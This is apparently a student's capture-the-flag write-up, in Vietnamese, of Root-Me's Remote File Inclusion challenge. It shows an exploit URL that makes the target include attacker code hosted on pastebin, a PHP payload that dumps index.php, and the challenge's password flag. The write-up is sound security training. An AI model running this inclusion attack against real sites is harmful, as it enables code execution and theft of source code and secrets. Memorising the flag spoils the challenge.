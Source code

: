 # Challenge: Remote File Inclusion
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion

- Thử thách cho ta 2 trang, với biến lang được truyền vào sẽ làm render sang các trang khác nhau. Ta thử xem có khai thác RFI được không khi đó 
>http://challenge01.root-me.org/web-serveur/ch13/?lang=https://www.uit.edu.vn/?
<p align="center"><img src="./images/4.1.png"></p>

- Ta dùng thấy đã include được trang web trường UIT vào thử thách.
<p align="center"><img src="./images/4.2.png"></p>

- Như vậy ta sẽ tiếp tục khai thác RFI ở thử thách này, ta sẽ dùng trang web https://pastebin.com/ để lưu payload cần attack.
```
<?php $data = file_get_contents("index.php"); echo $data; ?>
```
> http://challenge01.root-me.org/web-serveur/ch13/?lang=https://pastebin.com/raw/VpmNrJCi?
<p align="center"><img src="./images/4.3.png"></p>

- Kiểm tra mã nguồn thì ta thấy thông tin password
<p align="center"><img src="./images/4.4.png"></p>


## Kết quả password là `R3m0t3_iS_r3aL1y_3v1l`